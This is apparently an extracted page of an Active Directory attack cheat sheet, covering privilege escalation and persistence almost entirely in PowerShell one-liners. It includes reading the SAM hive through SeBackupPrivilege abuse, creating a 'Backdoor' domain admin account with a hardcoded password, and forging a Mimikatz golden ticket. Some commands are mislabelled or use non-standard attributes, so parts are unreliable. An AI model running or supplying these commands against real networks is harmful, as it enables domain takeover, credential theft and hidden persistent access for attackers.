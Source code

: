 
### **4. Privilege Escalation**

#### **Enumerate Local Administrators on Machines**
```powershell
Invoke-Command -ComputerName target-PC -ScriptBlock { Get-LocalGroupMember -Group "Administrators" }
```

#### **Enumerate Privileged Accounts**
```powershell
Get-ADUser -Filter {AdminCount -eq 1} -Properties AdminCount
```

#### **Get Delegated Privileges**
```powershell
Get-ADUser -Filter {IsPrivileged -eq $True} -Properties MemberOf
```

#### **Abuse SeBackupPrivilege (Backup Operator Privileges)**
```powershell
Invoke-SeBackupPrivilege -Command { Get-Content C:\Windows\System32\config\SAM }
```

#### **Get Users with Replication Rights**
```powershell
Get-ADUser -Filter {MemberOf -eq 'CN=Replication Group,CN=Users,DC=domain,DC=com'}
```

#### **Exploit Unconstrained Delegation**
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

---

### **5. Persistence**

#### **Create a New Domain Admin Account**
```powershell
New-ADUser -Name "Backdoor" -AccountPassword (ConvertTo-SecureString "SuperSecret123!" -AsPlainText -Force) -PassThru | Enable-ADAccount
Add-ADGroupMember -Identity "Domain Admins" -Members "Backdoor"
```

#### **Add User to Domain Admins Group**
```powershell
Add-ADGroupMember -Identity "Domain Admins" -Members "Backdoor"
```

#### **Golden Ticket Attack (Mimikatz)**
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DOMAIN /sid:S-1-5-21-... /krbtgt:HASH /id:500 /ticket:golden.kirbi"'
```
